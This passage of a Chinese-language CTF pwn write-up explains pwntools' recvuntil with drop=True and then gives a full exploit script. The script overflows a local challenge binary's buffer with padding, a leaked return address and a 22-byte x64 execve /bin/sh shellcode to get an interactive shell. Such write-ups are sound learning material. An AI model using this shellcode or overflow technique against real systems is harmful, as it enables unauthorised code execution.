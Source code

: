 ```python

        Examples:

            >>> t = tube()
            >>> t.recv_raw = lambda n: b"Hello World!"
            >>> t.recvuntil(b' ')
            b'Hello '
            >>> _=t.clean(0)
            >>> # Matches on 'o' in 'Hello'
            >>> t.recvuntil((b' ',b'W',b'o',b'r'))
            b'Hello'
            >>> _=t.clean(0)
            >>> # Matches expressly full string
            >>> t.recvuntil(b' Wor')
            b'Hello Wor'
            >>> _=t.clean(0)
            >>> # Matches on full string, drops match
            >>> t.recvuntil(b' Wor', drop=True)
            b'Hello'

            >>> # Try with regex special characters
            >>> t = tube()
            >>> t.recv_raw = lambda n: b"Hello|World"
            >>> t.recvuntil(b'|', drop=True)
            b'Hello'

        """
```

就很容易理解了，为什么编写exp的时候drop要设置为True也就懂了。

exp：

```python
from pwn import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process("./shellcode")
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
p.recvuntil("[")
buf_addr = p.recvuntil("]",drop=True)
buf_addr = int(buf_addr,16)
payload = b'a'*24+ p64(buf_addr+0x20)+shellcode
p.sendline(payload)
p.interactive()

```

那个shellcode是从网上找到的x64下的22字节的shellcode，pwntools生成的shellcode有44字节所以不能用。从现在开始也慢慢把遇到的shellcode都收藏起来了，以后可能会用到。


